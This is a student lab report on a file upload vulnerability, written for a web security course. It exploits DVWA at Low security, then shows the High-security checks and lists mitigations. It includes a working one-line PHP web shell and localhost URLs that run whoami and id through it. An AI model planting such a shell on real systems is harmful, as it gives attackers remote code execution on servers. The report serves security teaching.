








# Assignment 5 — File Upload Vulnerability and Security

**Name:** Dechen Wangdra Sherpa
**Student No:** 02230281
**Module:** Web Application Security (WEB404)

---

## 1. Aim

To develop (use) a file upload feature and implement security measures to prevent malicious file uploads, by first exploiting an insecure upload and then blocking it.

## 2. Introduction

An insecure file upload lets an attacker upload a file the server will execute, such as a PHP script, instead of a harmless image. Once uploaded and accessed, the script runs on the server, giving the attacker control.

This assignment uses **DVWA's File Upload module**. The attack was performed at **Low** security and the safeguard demonstrated at **High** security, on **Kali Linux** with DVWA running in Docker.

## 3. Normal Upload (Baseline)

At **Low** security, the File Upload page accepts a file. Uploading a normal image succeeds and DVWA returns the path where it was stored (`../../hackable/uploads/...`). This shows the feature working as intended.



## 4. Creating the Malicious File

A small PHP web shell was created in the terminal. The one line runs whatever command is passed in the `cmd` parameter:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```



## 5. Performing the Attack

### 5.1 Uploading the shell

With no validation at Low security, `shell.php` uploaded successfully, and DVWA returned its path.



### 5.2 Executing commands (Remote Code Execution)

The uploaded shell was then accessed directly in the browser with a command in the URL:

```
http://localhost/hackable/uploads/shell.php?cmd=whoami
```

The page returned `www-data`, confirming commands run on the server as the web-server user.



A second command confirmed full access:

```
http://localhost/hackable/uploads/shell.php?cmd=id
```



This demonstrates **Remote Code Execution (RCE)** — the most serious impact of an insecure file upload.

## 6. Security Measures (High Security)

The DVWA security level was set to **High**, which loads a validated version of the upload code.



Uploading `shell.php` again was **rejected** with the message that only JPEG or PNG images are accepted.



### 6.1 How the safeguard works

The **View Source** of the High-level code shows the checks that block the attack:



- **Extension whitelist** — the file extension must be `jpg`, `jpeg`, or `png`.
- **File size limit** — the file must be under 100000 bytes.
- **`getimagesize()`** — confirms the file is a genuine image, not a renamed script.

Together these ensure a `.php` file cannot be uploaded or disguised as an image.

## 7. Results

| Step | Security | Outcome |
|------|----------|---------|
| Normal image | Low | Uploaded successfully (feature works) |
| Upload shell | Low | `shell.php` uploaded — no validation |
| Execute shell | Low | `whoami` / `id` return `www-data` — RCE |
| Upload shell | High | Rejected — only JPEG/PNG accepted |

## 8. Mitigation (Security Measures)

1. **Validate the file type properly** — check the real content (e.g. `getimagesize()` / MIME type), not just the extension or the name the user supplies.
2. **Whitelist allowed extensions** (`jpg`, `jpeg`, `png`) and reject everything else.
3. **Limit file size** to a reasonable maximum.
4. **Store uploads outside the web root or disable execution** in the upload folder, so even an uploaded script cannot be run.
5. **Rename uploaded files** to random names to prevent attackers from predicting the path.

## 9. Conclusion

An insecure file upload was exploited by uploading a PHP web shell and using it to run commands on the server (`whoami`, `id`), achieving Remote Code Execution. The vulnerability was then fixed by enabling High security, which validates the file extension, size, and actual image content, causing the malicious upload to be rejected. The assignment demonstrated both the severity of insecure file uploads and the validation measures that prevent them.
